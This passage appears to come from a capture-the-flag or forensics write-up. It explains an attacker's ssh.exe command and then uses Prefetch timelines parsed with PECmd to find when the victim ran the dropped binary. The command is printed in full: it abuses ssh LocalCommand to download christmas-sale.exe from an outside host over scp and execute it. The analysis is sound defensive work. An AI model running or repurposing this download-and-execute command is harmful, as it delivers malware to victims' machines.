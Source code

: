 Then lets examine what will happened after execute this command 
- it will execute `ssh.exe` that allow to execute local command after connection established without checking host key
- it will execute `scp` to download `christmas-sale.exe` from 17.43.12.31 as root to `C:\Users\Public\` then executes it as user revenge on the same IP address 

```
C:\Windows\System32\OpenSSH\ssh.exe -o "PermitLocalCommand=yes" -o "StrictHostKeyChecking=no" -o "LocalCommand=scp root@17.43.12.31:/home/revenge/christmas-sale.exe c:\users\public\. && c:\users\public\christmas-sale.exe" revenge@17.43.12.31
```

>Task 3: When was this file ran on the system by the victim?

![f7ab6563984a68fc495c6899b08163e7.png](/resources/f7ab6563984a68fc495c6899b08163e7.png)

To find out when an execute file was executed on the system, we can use Prefetch, Amcache or Shimcache for this but I used Prefetch for timeline file which I parsed it with [PECmd](https://www.sans.org/tools/pecmd/) from Eric Zimmerman's Tools

This tool will create 2 files (`--csv` was specified in my case), one with more details about each binary including how many times it was executed, the other one is the timeline file with contains only runtime and binary path but its easier to read the timeline since its sorted by run time which I will utilize this to find out more which binary was executed after `christmas-sale.exe` binary was executed.

![d240ace51f411e7a5d629fea1661f753.png](/resources/d240ace51f411e7a5d629fea1661f753.png)
